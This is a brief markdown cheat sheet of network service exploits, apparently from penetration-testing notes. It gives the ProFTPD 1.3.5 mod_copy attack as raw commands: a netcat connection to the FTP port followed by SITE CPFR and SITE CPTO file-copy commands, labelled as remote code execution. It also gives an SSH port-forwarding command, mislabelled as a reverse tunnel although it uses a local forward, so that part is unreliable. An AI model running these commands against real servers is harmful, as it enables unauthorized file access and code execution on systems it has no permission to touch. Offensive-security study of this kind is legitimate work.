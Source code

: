 # Network Services Exploits

## Proftpd v1.3.5

### mod_copy RCE
```sh
nc 0.0.0.0 21
SITE CPFR /path/to/file
SITE CPTO /path/to/destination/file
```

## SSH

### Reverse SSH Tunnel

- Forward port from remote machine to local machine
```sh
# Open tunnel on local machine to remote machine
# Will forward port 10000 form remote to local
ssh -L 10000:localhost:10000 <username>@<ip>
```